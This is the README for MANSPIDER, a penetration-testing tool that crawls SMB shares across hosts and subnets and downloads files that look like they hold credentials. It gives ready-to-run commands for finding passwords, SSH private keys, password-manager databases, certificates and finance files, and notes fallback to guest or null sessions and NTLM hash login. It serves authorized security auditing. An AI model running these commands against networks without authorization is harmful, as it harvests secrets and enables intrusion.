 # MAN-SPIDER
### Crawl SMB shares for juicy information. File content searching + regex is supported!

![manspider](https://user-images.githubusercontent.com/20261699/74963251-6a08de80-53df-11ea-88f4-60c39665dfa2.gif)

### File types supported:
- `PDF`
- `DOCX`
- `XLSX`
- `PPTX`
- any text-based format
- and many more!!

### MAN-SPIDER will crawl every share on every target system. If provided creds don't work, it will fall back to "guest", then to a null session.
![manspider](https://user-images.githubusercontent.com/20261699/80316979-f9ab7e80-87ce-11ea-9628-3c22a07e8378.png)

### Installation:
(Optional) Install these dependencies to add additional file parsing capability:
~~~
# for images (png, jpeg)
$ sudo apt install tesseract-ocr

# for legacy document support (.doc)
$ sudo apt install antiword
~~~
Install manspider (please be patient, this can take a while):
~~~
$ pip install pipx
$ pipx install git+https://github.com/blacklanternsecurity/MANSPIDER
~~~

### Example #1: Search the network for filenames that may contain creds
NOTE: matching files are automatically downloaded into `$HOME/.manspider/loot`! (`-n` to disable)
~~~
$ manspider 192.168.0.0/24 -f passw user admin account network login logon cred -d evilcorp -u bob -p Passw0rd
~~~

### Example #2: Search for spreadsheets with "password" in the filename
~~~
$ manspider share.evilcorp.local -f passw -e xlsx csv -d evilcorp -u bob -p Passw0rd
~~~

### Example #3: Search for interesting file extensions
~~~
$ manspider share.evilcorp.local -e bat com vbs ps1 psd1 psm1 pem key rsa pub reg txt cfg conf config -d evilcorp -u bob -p Passw0rd
~~~

### Example #4: Search for finance-related files
This example searches financy-sounding directories for filenames containing 5 or more consecutive numbers (e.g. `000202006.EFT`)
~~~
$ manspider share.evilcorp.local --dirnames bank financ payable payment reconcil remit voucher vendor eft swift -f '[0-9]{5,}' -d evilcorp -u bob -p Passw0rd
~~~

### Example #5: Search for SSH keys by filename
~~~
$ manspider share.evilcorp.local -e ppk rsa pem ssh rsa -o -f id_rsa id_dsa id_ed25519 -d evilcorp -u bob -p Passw0rd
~~~

### Example #6: Search for SSH keys by content
~~~
$ manspider share.evilcorp.local -e '' -c 'BEGIN .{1,10} PRIVATE KEY' -d evilcorp -u bob -p Passw0rd
~~~

### Example #7: Search for password manager files
~~~bash
# .kdbx - KeePass Password Database (KeePass, KeePassXC)
# .kdb - KeePass Classic Database (KeePass 1.x)
# .1pif - 1Password Interchange Format (1Password)
# .agilekeychain - Agile Keychain Format (1Password, deprecated)
# .opvault - OPVault Format (1Password)
# .lpd - LastPass Data File (LastPass)
# .dashlane - Dashlane Data File (Dashlane)
# .psafe3 - Password Safe Database (Password Safe)
# .enpass - Enpass Password Manager Data File (Enpass)
# .bwdb - Bitwarden Database (Bitwarden)
# .msecure - mSecure Password Manager Data File (mSecure)
# .stickypass - Sticky Password Data File (Sticky Password)
# .pwm - Password Memory Data File (Password Memory)
# .rdb - RoboForm Data File (RoboForm)
# .safe - SafeInCloud Password Manager Data File (SafeInCloud)
# .zps - Zoho Vault Encrypted Data File (Zoho Vault)
# .pmvault - SplashID Safe Data File (SplashID Safe)
# .mywallet - MyWallet Password Manager Data File (MyWallet)
# .jpass - JPass Password Manager Data File (JPass)
# .pwmdb - Universal Password Manager Database (Universal Password Manager)
$ manspider share.evilcorp.local -e kdbx kdb 1pif agilekeychain opvault lpd dashlane psafe3 enpass bwdb msecure stickypass pwm rdb safe zps pmvault mywallet jpass pwmdb -d evilcorp -u bob -p Passw0rd
~~~

### Example #8: Search for certificates
~~~
$ manspider share.evilcorp.local -e pfx p12 pkcs12 pem key crt cer csr jks keystore key keys der -d evilcorp -u bob -p Passw0rd
~~~

### Usage Tip #1:
You can run multiple instances of manspider at one time. This is useful when one instance is already running, and you want to search what it's downloaded (similar to `grep -R`). To do this, specify the keyword `loot` as the target, which will search the downloaded files in `$HOME/.manspider/loot`.

### Usage Tip #2:
Reasonable defaults help prevent unwanted scenarios like getting stuck on a single target. All of these can be overridden:
- **default spider depth: 10** (override with `-m`)
- **default max filesize: 10MB** (override with `-s`)
- **default threads: 5** (override with `-t`)
- **shares excluded: `C$`, `IPC$`, `ADMIN$`, `PRINT$`** (override with `--exclude-sharenames`)

### Usage Tip #3:
Manspider accepts any combination of the following as targets:
- IPs
- hostnames
- subnets (CIDR format)
- files containing any of the above
- local folders containing files

For example, you could specify any or all of these:
- **`192.168.1.250`**
- **`share.evilcorp.local`**
- **`192.168.1.0/24`**
- **`smb_hosts.txt`**
- **`loot`** (to search already-downloaded files)
- **`/mnt/share`** (to recursively search a directory)
    - NOTE: when searching local files, you must specify a directory, not an individual file

## Usage:
~~~
usage: manspider [-h] [-u USERNAME] [-p PASSWORD] [-d DOMAIN] [-m MAXDEPTH] [-H HASH] [-t THREADS] [-f REGEX [REGEX ...]] [-e EXT [EXT ...]] [--exclude-extensions EXT [EXT ...]]
                 [-c REGEX [REGEX ...]] [--sharenames SHARE [SHARE ...]] [--exclude-sharenames [SHARE ...]] [--dirnames DIR [DIR ...]] [--exclude-dirnames DIR [DIR ...]] [-q] [-n]
                 [-mfail INT] [-o] [-s SIZE] [-v]
                 targets [targets ...]

Scan for juicy data on SMB shares. Matching files and logs are stored in $HOME/.manspider. All filters are case-insensitive.

positional arguments:
  targets               IPs, Hostnames, CIDR ranges, or files containing targets to spider (NOTE: local searching also supported, specify directory name or keyword "loot" to search
                        downloaded files)

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        username for authentication
  -p PASSWORD, --password PASSWORD
                        password for authentication
  -d DOMAIN, --domain DOMAIN
                        domain for authentication
  -m MAXDEPTH, --maxdepth MAXDEPTH
                        maximum depth to spider (default: 10)
  -H HASH, --hash HASH  NTLM hash for authentication
  -t THREADS, --threads THREADS
                        concurrent threads (default: 5)
  -f REGEX [REGEX ...], --filenames REGEX [REGEX ...]
                        filter filenames using regex (space-separated)
  -e EXT [EXT ...], --extensions EXT [EXT ...]
                        only show filenames with these extensions (space-separated, e.g. `docx xlsx` for only word & excel docs)
  --exclude-extensions EXT [EXT ...]
                        ignore files with these extensions
  -c REGEX [REGEX ...], --content REGEX [REGEX ...]
                        search for file content using regex (multiple supported)
  --sharenames SHARE [SHARE ...]
                        only search shares with these names (multiple supported)
  --exclude-sharenames [SHARE ...]
                        don't search shares with these names (multiple supported)
  --dirnames DIR [DIR ...]
                        only search directories containing these strings (multiple supported)
  --exclude-dirnames DIR [DIR ...]
                        don't search directories containing these strings (multiple supported)
  -q, --quiet           don't display matching file content
  -n, --no-download     don't download matching files
  -mfail INT, --max-failed-logons INT
                        limit failed logons
  -o, --or-logic        use OR logic instead of AND (files are downloaded if filename OR extension OR content match)
  -s SIZE, --max-filesize SIZE
                        don't retrieve files over this size, e.g. "500K" or ".5M" (default: 10M)
  -v, --verbose         show debugging messages
~~~

